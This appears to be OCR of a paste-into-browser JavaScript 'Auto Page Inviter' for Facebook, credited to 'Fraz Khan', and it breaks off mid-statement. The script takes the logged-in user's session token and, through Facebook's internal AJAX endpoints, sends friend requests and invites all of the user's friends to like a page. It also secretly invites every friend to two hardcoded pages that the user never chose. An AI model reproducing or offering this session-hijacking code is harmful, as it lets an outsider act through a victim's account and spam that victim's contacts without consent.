 XMLHttpRequest();   var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); }  javascript: var Title='Auto Page Inviter&lt;br/> By:&lt;A style="color:#cecfd1;" href="https://www.facebook.com/MFRAZSULTAN" target="_blank">Fraz Khan&lt;/A>'; var Descriptions = "",     _text = 'Powered By: Fraz Khan&lt;/br>Script Made By &lt;/A>&lt;A style="color:#8db8ca;" href="http://www.facebook.com/100003986362145" target="_blank"> Fraz Khan&lt;/A>&lt;/A>.&lt;/br> Join My Fanpage &lt;A style="color:#e6ebf8;" href="http://www.facebook.com/FrazKhanOfficial" target="_blank">Fraz Khan&lt;/A>.&lt;/A>'; page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1]; function InviteFriends(opo) {     jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send_single?page_id=" + page_id + "&amp;invitee=" + opo + "&amp;elem_id=u_0_1k&amp;action=send&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=8&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=", function (a) {         var b = a.substring(a.indexOf("{"));         var c = JSON.parse(b);         i--;         Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";         if (c.error) {             Descriptions += "color:darkred'>";             err++;             if (c.errorDescription) Descriptions += c.errorDescription;             else Descriptions += JSON.stringify(c, null, "")         } else {             Descriptions += "color:darkgreen'>";             Descriptions += arn[i] + " has been invited to like the page " + page_name + ".";             suc++         }         Descriptions += "&lt;/div>";         var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#e1dddd'>";         display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>";         if (i > 0) {             display += arr.length + " Friends Detected&lt;br/>";             display += "&lt;b>" + suc + "&lt;/b> Friends Invited of " + (arr.length - i) + " Friends Processed ";             display += "(" + i + " Lefted...)";             display += "&lt;div class='friend-edge'>";             display += Descriptions;             display += "&lt;img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + ">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#9098a9;position:absolute;font-weight:bold;'>" + arn[i] + "&lt;/a>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>";             display += "Please Wait While Inviting Your Friends to Like Your Page " + page_name + ".&lt;/br>";             display += _text;             display += "&lt;/div>";             display += "&lt;/div>";             window[tag + "_close"] = true         } else {             Title = "All Of Your Friends Have Been Invited to Like Your Page.&lt;/A>";             display += arr.length + " Friends Detected and ";             display += "&lt;b>" + suc + " Friends Invited.&lt;/b>&lt;/br>";             display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page&lt;/span>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Cancel&lt;/span>&lt;br/>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";             display += _text;             display += "&lt;/div>";             window[tag + "_close"] = false         }         display += "&lt;/div>";         document.getElementById("pagelet_sidebar").innerHTML = display     }, "text", "post");     tay--;     if (tay > 0) {         var s = arr[tay];         setTimeout("InviteFriends(" + s + ")", 100)     }     console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);                               if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=170971166421357&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                         if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=209126199281449&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                         if (page_id)jx.load(window.location.protocol +